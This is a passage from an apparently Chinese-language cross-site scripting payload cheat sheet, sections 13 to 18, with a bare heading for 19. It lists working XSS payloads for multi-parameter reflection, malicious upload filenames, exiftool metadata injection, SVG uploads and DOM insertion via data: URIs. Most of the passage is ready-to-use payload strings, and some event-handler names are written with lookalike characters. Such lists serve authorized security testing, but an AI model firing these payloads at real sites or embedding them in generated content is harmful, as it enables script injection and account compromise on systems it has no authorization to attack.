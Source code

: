 ##### 13.Multi Input Reflections HTML Injection - Double & Triple (HTML注入多输入反射-两次和三次)

```
payload用于利用同一页面上的多个输入反射。在HPP（HTTP参数污染）其中存在重复参数的反射。 第三个payload利用相同参数的逗号分隔进行反射。<br>

p=<svg/1='&q='οnlοad=alert(1)>
p=<svg 1='&q='οnlοad='/*&r=*/alert(1)'>
q=<script/&q=/src=data:&q=alert(1)>
```

##### 14.File Upload Injection – Filename (文件上传注入-文件名)

```
payload用于用户上传的文件名返回在目标页面的某处时使用。

"><svg οnlοad=alert(1)>.gif
```

##### 15.File Upload Injection – Metadata (文件上传注入-元数据)

```
payload用于，当上传文件的元数据返回在目标页面中的某处时使用。 它可以使用命令行exiftool（"$"是终端提示），并且可以设置任何元数据字段。

$ exiftool -Artist='"><svg οnlοad=alert(1)>' xss.jpeg
```

##### 16.File Upload Injection – SVG File (文件上传注入-SVG文件)

```
上传图像文件时，用于在目标上创建存储的XSS payload。 将以下内容另存为"xss.svg"文件 <br>

<svg xmlns="http://www.w3.org/2000/svg" οnlοad="alert(1)"/>
```

##### 17.DOM Insert Injection (DOM 注入)

```
当注入的payload作为有效标记插入DOM中，而不是反映在源代码中时，用于测试XSS。它适用于html标签和其他payload无效的情况下使用。<br>

<img src=1 οnerrοr=alert(1)>
<iframe src=javascript:alert(1)>
<details open οntοggle=alert(1)>
<svg><svg οnlοad=alert(1)>
```

##### 18.DOM Insert Injection – Resource Request (DOM 注入-资源请求)

```
当网站调用本地的javascript代码发送请求，并且将请求的结果插入到页面中时，如果攻击者可以控制该URL。则可以使用以下payload进行测试 <br>

data:text/html,<img src=1 οnerrοr=alert(1)>
data:text/html,<iframe src=javascript:alert(1)>
```

##### 19.PHP Self URL Injection (PHP self URL注入)
